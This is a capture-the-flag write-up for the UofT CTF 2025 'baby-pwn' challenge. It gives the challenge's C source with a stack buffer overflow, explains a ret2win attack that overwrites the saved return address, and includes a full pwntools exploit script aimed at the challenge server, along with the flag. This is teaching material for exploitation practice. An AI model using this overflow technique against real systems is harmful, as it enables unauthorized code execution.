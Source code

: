 ```yaml
---
layout: writeup
category: UofT-CTF-2025
chall_description: 
points: 100
solves: 459
tags: UofT-CTF-2025 pwn pwn/buffer-overflow pwn/ret2win
date: 2025-1-12
comments: false
---
```


Here's a baby pwn challenge for you to try out. Can you get the flag?

nc 34.162.142.123 5000

Author: atom

[baby-pwn.zip](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UofT-CTF-2025/baby-pwn.zip)  

---

We're provided the binary along with the source file:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void secret()
{
    printf("Congratulations! Here is your flag: ");
    char *argv[] = {"/bin/cat", "flag.txt", NULL};
    char *envp[] = {NULL};
    execve("/bin/cat", argv, envp);
}

void vulnerable_function()
{
    char buffer[64];
    printf("Enter some text: ");
    fgets(buffer, 128, stdin);
    printf("You entered: %s\n", buffer);
}

int main()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    printf("Welcome to the Baby Pwn challenge!\n");
    printf("Address of secret: %p\n", secret);
    vulnerable_function();
    printf("Goodbye!\n");
    return 0;
}
```

No need to even look at the binary's protections here -- this is a simple, easy ret2win.  

We have a buffer overflow on `buffer`, allowing us to overwrite the saved RIP, as 128 bytes are read into a 64 byte buffer. Also, he program leaks the address of `secret()`, so we can just write that to saved RIP!  

The exploit can be summed up in three lines:  

```py
# send(cyclic(128, n=8), b': ')
offset = cyclic_find('jaaaaaaa', n=8)
send(b'A'*offset + p64(elf.sym.secret), b': ')
```

The first (commented-out) line, when we run the binary with GDB attached, will give us the offset in our input where the saved RIP is. The next two lines use that information to overwrite the saved RIP with the address of `secret()` (turns out you don't even need the program's leak because the binary doesn't have the PIE protection enabled!)  

And we get the flag!  

	uoftctf{buff3r_0v3rfl0w5_4r3_51mp13_1f_y0u_kn0w_h0w_t0_d0_1t}

Full script (it's long because I made a pwn template for myself):  

```py
# Useful references:
# https://gist.github.com/anvbis/64907e4f90974c4bdd930baeb705dedf

from pwn import *
import sys
import os

#---------HELPER FUNCTIONS---------#

def get_leak(before: bytes, end: bytes=b'\n') -> int:
    p.recvuntil(before)
    return int(p.recvuntil(end).decode('ascii')[:-1], 16)

def send(payload: bytes, before: bytes=b'', line: bool=True) -> int:
    payload = payload + (b'\n' if line else b'')
    if before == b'':
        p.send(payload)
    else:
        p.sendafter(before, payload)


#---------SETUP---------#

args = list(map(lambda s: s.upper(), sys.argv))
_libcs = list(filter(lambda s: 'libc.so.6' in s, os.listdir()))
_lds = list(filter(lambda s: 'ld' == s[:2], os.listdir()))

elf = ELF("baby-pwn") #------TODO------#
libc = _libcs[0] if len(_libcs) else elf.libc
ld = _lds[0] if len(_lds) else None

context.binary = elf
context.log_level = "DEBUG"

gdbscript = '''
# 
'''

if 'REMOTE' in args:
    p = remote('34.162.142.123', 5000) #------TODO------#
else:
    p = process([elf.path])
    gdb.attach(p, gdbscript=gdbscript)


###################################
#==========BEGIN EXPLOIT==========#
###################################

# send(cyclic(128, n=8), b': ')
offset = cyclic_find('jaaaaaaa', n=8)
send(b'A'*offset + p64(elf.sym.secret), b': ')

###################################
#===========END EXPLOIT===========#
###################################


p.interactive()
p.close()

# uoftctf{buff3r_0v3rfl0w5_4r3_51mp13_1f_y0u_kn0w_h0w_t0_d0_1t}
```